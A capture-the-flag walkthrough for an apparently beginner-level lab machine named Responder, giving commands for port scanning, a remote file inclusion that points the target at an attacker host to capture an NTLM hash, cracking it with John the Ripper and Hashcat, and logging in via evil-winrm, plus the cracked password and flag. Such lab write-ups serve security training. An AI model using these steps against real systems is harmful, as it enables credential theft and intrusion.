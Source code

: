 # CTF Walkthrough: Responder

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Responder, Remote File Inclusion (RFI), John The Ripper, Hashcat, evil-winrm, SMB       
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -p- 10.129.80.224`
        - Output:
            ```
            PORT     STATE SERVICE VERSION
            80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
            |_http-title: Unika
            |_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
            5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
            ```

2. Visit `10.129.80.224`, gets redirected to `unika.htb`

3. Add `10.129.80.224` to `/etc/hosts`
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.80.224 unika.htb
            ```
4. Start Responder
    - Command: `sudo responder -I tun0`

5. Remote File Inclusion
    - Visit `http://unika.htb/index.php?page=//<ATTACKING_IP>/test`


6. Save the hash to `hash.txt`

7. Crack the hash with
    - Method 1: John the Ripper
        - Command: `john hash.txt -w=/usr/share/wordlists/rockyou.txt`
            - Output:
                ```
                Press 'q' or Ctrl-C to abort, almost any other key for status
                badminton        (Administrator)
                1g 0:00:00:00 DONE (2025-04-22 01:55) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
                ```
    - Method 2: Hashcat
        - Command: `hashcat hash.txt /usr/share/wordlists/rockyou.txt`
            - Output:
                ```
                69ab90d297d2fb90a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100370030000000000000000000:badminton
                ```

8. Connect to winrm
    - Command: `evil-winrm -i 10.129.80.224 -u Administrator -p badminton`

9. Get Flag
    - Command: `cd C:\Users\mike\Desktop`
    - cat flag.txt
        - Flag: ea81b7afddd03efaa0945333ed147fac

